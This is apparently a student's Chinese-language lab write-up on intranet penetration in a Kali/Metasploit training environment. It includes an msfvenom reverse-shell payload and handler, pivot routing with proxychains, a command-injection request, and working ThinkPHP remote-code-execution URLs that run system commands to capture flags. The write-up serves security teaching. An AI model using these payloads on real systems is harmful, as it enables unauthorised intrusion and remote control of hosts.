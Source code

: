 # 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

## 实验步骤

### 步骤一 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`
![](./pics/手动生成meterpretershell.png)

2. 上传
![](./pics/上传成功.png)

3. 在metasploit里设置如下并`run -j`等待
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```
注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机里运行meterpreter.elf
![](./pics/进入容器下载文件并运行.png)

6. 返回到攻击者主机，可以看到连接成功
![](./pics/拿到meterpretershell.png)

7. 升级shell
![](./pics/升级会话窗口.png)

8. 查看route，arp， ipconfig
![](./pics/查看arp.png)
![](./pics/查看route.png)
![](./pics/ipconfig.png)

9. 设置pivot路由
![](./pics/添加pivot路由.png)

10. 扫描
![](./pics/扫描结果1.png)
扫描100%后查看存活的主机和服务，使用`hosts`和`services`
![](./pics/开放的主机和服务.png)

11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频
![](./pics/socks代理.png)
![](./pics/查看1080端口服务开放情况.png)
`cat /etc/proxychains4.conf` 
确认有以下配置
![](./pics/修改proxychains配置.png)
并且配置浏览器代理
![](./pics/代理3.png)

12. 成功访问第一层
![](./pics/访问thinkphp.png)

### 步骤二 攻击新发现的靶机

#### nginx
nginx
1. 设置代理curl扫描到的IP
` proxychains curl http://192.170.84.2`
![](./pics/访问第二台主机.png)

2. 根据提示执行以下命令
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`
![](./pics/第二个flag.png)

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)
2. 执行系统命令
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)

### 步骤三 

1. 查看第一层两台主机的ip
访问`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ip%20a`
![](./pics/双网卡.png)
可以看到192.170.84.3这一台机器有双网卡

## 参考资料
[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
